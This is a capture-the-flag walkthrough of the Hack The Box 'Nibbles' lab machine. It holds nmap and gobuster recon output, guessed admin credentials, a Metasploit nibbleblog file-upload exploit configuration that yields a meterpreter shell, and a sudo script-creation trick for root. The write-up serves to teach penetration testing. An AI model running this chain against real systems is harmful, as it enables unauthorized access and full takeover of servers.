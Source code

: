 # Nibbles

Address: `10.10.10.75`

## Initial scan

```sh
nmap -A -T5 -p- 10.10.10.75
```

### Nmap results

```
Starting Nmap 7.70 ( https://nmap.org ) at 2020-04-10 03:40 EDT
Warning: 10.10.10.75 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.10.75
Host is up (0.20s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 4.9 (95%), Linux 3.18 (95%), Linux 4.2 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   199.01 ms 10.10.14.1
2   199.09 ms 10.10.10.75

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 228.39 seconds
```

## Result analysis

Open port on 80 and 22. Let's try opening the port 80 in a web browser. If that doesn't work we will try the SSH port.

## Port 80 recon

Going into the webpage for port 80, we find that there is only a simple hello world text inside.
Browsing the source code however, we see that there is a comment in HTML

```html
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

so obviously, we navigate to that subdirectory : `10.10.10.75:80/nibbleblog`

So far nothing out of the obvious.

## Gobuster

Using gobuster on the nibbleblog website:

```sh
gobuster -u http://10.10.10.75/nibbleblog -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Result: 

```
Gobuster v1.4.1              OJ Reeves (@TheColonial)
=====================================================
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.75/nibbleblog/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 301,302,307,200,204
=====================================================
/content (Status: 301)
/themes (Status: 301)
/admin (Status: 301)
/plugins (Status: 301)
/README (Status: 200)
/languages (Status: 301)
=====================================================
```

From here, we navigate to the admin panel

## Admin password cracking
Trying simple `admin` and `nibbles` password combination worked.

## Admin panel
Looking inside settings, we see that this nibbleblog is running on a vulnerable version of nibbleblog. Let's attempt to do some kind of file upload within the nibbleblog

## Metasploit
Using metasploit, we find that there is a nibbleblog module avaialble for use

```sh
msfconsole
use exploit/multi/http/nibbleblog_file_upload
set PASSWORD nibbles
set USERNAME admin
set TARGETURI /nibbleblog/
set RHOST 10.10.10.75
exploit
```

And it gave us a meterpreter shell

## Meterpreter

```sh
getuid # gives us back a nibbler user
sysinfo
# Computer    : Nibbles
# OS          : Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64
# Meterpreter : php/linux
```

## Priv Esc

Using the meterpreter shell, let's see which commands we can run as sudo
```sh
sudo -l
# Matching Defaults entries for nibbler on Nibbles:
#     env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
# User nibbler may run the following commands on Nibbles:
#     (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

We see that there's a specific file `/home/nibbler/personal/stuff/monitor.sh` that can be run as root

Let's see if that file exists --- And No. It doesn't.

And going into the `/home/nibbler` directory, the folder personal doesn't even exist. So instead, let's try creating those folders and a shell script to help us get a root shell

```sh
mkdir personal
cd personal
mkdir stuff
cd stuff
echo "bash -i" > monitor.sh
whoami # root
cd /root
cat root.txt
```
